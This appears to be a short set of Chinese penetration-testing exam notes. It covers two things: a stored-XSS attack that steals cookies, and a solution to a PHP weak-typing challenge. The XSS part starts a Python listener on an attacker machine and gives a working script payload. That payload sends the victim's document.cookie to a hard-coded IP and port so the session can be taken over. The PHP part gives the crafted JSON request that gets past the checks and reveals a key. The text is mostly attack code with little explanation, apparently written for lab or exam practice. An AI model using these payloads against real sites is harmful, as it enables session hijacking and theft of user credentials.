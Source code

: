 







### xss打cookie

评论留言页面

python启动简易服务器9999

1：攻击机起服务监听
python -m SimpleHTTPServer 9999

2:往攻击机插js语句

```
"><script>document.write('< img src="http://172.16.143.13:9999/?'+document.cookie+'" />')</script>

拿到sessin登录
或者seessino有key

```

```php
<?php
show_source(__FILE__);
$v1 = 0;
$v2 = 0;

$a = (array)json_decode(@$_GET['w']);

if (is_array($a)) {
    is_numeric(@$a["bar1"]) ? die("nope") : NULL;

    if (@$a["bar1"]) {
        var_dump($a["bar1"]);
        $ww=$a["bar1"] > 2020;
        var_dump($ww);
        ($a["bar1"] > 2020) ? $v1 = 1 : NULL;

    }

    if (is_array(@$a["bar2"])) {
        if (count($a["bar2"]) !== 5 OR !is_array($a["bar2"][0]))
            die("nope");
        $pos = array_search("cisp-pte", $a["bar3"]);
        $pos === false ? die("nope") : NULL;
        foreach ($a["bar2"] as $key => $val) {
            $val === "cisp-pte" ? die("nope") : NULL;
        }
        $v2 = 1;
    }
}

if ($v1 && $v2) {
    include("key.php");
    echo $key;
}
?>


http://123.60.47.130:10031/code1.php?w={"bar1":“2021w”  php弱类型
    "bar2":[[1],2,3,4,5]
"bar3":["cisp-pte"]
```

